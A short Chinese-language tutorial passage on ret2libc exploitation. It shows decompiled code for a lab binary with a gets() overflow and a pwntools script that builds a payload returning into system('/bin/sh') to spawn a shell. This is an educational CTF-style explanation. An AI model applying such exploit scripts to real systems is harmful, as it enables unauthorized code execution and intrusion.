 ## ret2libc

ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。

例子1，

```c++
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
    char s; // [esp+1Ch] [ebp-64h]

    setvbuf(stdout, 0, 2, 0);
    setvbuf(_bss_start, 0, 1, 0);
    puts("RET2LIBC >_<");
    gets(&s);
    return 0;
    }
```

程序很简单，溢出点就在main函数中，此外secure函数中还有system函数

```c++
void secure()
{
  unsigned int v0; // eax
  int input; // [esp+18h] [ebp-10h]
  int secretcode; // [esp+1Ch] [ebp-Ch]

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf("%d", &input);
  if ( input == secretcode )
    system("shell!?");
}
```

借助工具查看是否有现成的`/bin/sh`

![Alt](img/wiki-BasicRop7.png)

```python
    from pwn import *

    p = process('./ret2libc1')
    system_plt = ELF('./ret2libc1').sym['system']
    log.info('system_plt = %#x',system_plt)

    binsh_addr = 0x8048720
    payload = flat(['A'*(0x6c+4), system_plt, 0x080484D0, binsh_addr])
    # payload = 'A'*(0x6c+4) + p32(system_plt) + p32(0x080484D0) + p32(binsh_addr)
    p.sendline(payload)
    sleep(1)
    p.interactive()
```
